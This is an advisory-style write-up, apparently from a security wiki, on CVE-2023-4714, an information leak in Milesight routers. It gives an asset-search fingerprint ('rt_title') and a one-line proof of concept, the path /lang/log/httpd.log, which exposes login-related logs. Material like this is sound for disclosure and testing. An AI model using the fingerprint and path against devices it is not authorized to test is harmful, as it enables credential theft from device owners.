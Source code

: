# Milesight Router httpd.log Information Leakage Vulnerability CVE-2023-4714

## Vulnerability Description

Milesight Router has an information leak vulnerability. Attackers can obtain login sensitive log information by accessing httpd.log.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Milesight Router </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"rt_title"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697779377252-ccc6a6ae-9be6-4ec8-af2a-38744a3d16f6-20231108132518357.png)

Verify POC

```php
/lang/log/httpd.log
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697779477490-d9ab1bcd-fbeb-4c20-aefa-500c7128a9a3-20231108132522561.png)